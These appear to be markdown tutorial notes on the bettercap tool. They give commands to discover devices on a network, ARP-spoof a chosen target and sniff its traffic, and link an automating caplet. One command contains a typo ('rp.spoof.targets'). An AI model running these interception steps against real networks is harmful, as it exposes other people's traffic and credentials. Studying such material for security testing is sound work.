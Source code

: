 ---
---

````bash
sudo apt install bettercap
# Start Bettercap on Interface
bettercap -iface <interface> 
# View all Modules
help 
help <module-name>
````

#### View Devices on Network

````bash
# Discover devices connected to Network
net.probe on 
net.show
````

#### ARP Spoofing

````bash
net.probe on
help arp.spoof
set arp.spoof.fullduplex true
````

If the router has protection against ARP spoofing then full duplex mode will not work. In that case leave the value as false. But then we cannot perform all attacks as the router will directly send the response to the target

````bash
set rp.spoof.targets <target-ip>
arp.spoof on
````

#### Sniff Data on Target Device

Enable net.probe & arp.spoof

````bash
net.sniff on
````

Instead of typing the commands again and again we can create an .cap file with all the commands that need to be executed

Sniff Data Cap File   
<https://drive.google.com/open?id=1Man5IhMekLHHNEw3rwGxkn9kpQBZhdGt>

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
````

